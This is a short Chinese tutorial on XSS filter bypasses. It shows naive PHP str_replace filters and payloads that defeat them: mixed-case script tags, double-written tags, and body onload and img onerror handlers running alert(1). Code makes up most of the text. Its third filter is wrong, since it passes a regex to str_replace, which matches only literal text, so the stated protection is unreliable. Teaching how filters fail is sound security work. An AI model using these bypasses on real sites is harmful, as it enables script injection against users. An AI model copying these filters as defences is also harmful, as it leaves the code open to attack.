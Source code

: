 # XSS 绕过

1. 大小写绕过

   后端 PHP 过滤代码如下：

   ```PHP
   <?php
       $str = str_replace('<script>', '', $str);
   ?>
   ```

   仅仅对特定字符串进行过滤，可以改变大小写来绕过，XSS 绕过代码如下：

   ```JavaScript
   <ScRipt>alert(1)</SCriPt>
   ```

2. 双写绕过

   后端 PHP 过滤代码如下：

   ```PHP
   <?php
       $str = str_replace('<script>', '', $str);
   ?>
   ```

   仅仅对特定字符串进行过滤，可以将字符串进行双写，在 XSS 代码被过滤后，仍然可以执行。

   ```JavaScript
   <scr<script>ipt>alert(1)</script>
   ```

3. 其他标签绕过

   后端 PHP 过滤代码如下：
   
   ```PHP
   <?php
    $str = str_replace('/s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $str);
   ?>
   ```
   
   此时以上两种绕过方法都已失效，可以尝试其它标签。
   
   ``` JavaScript
   <body onload=alert(1)>
   <img src=x onerror=alert(1) />
   ```
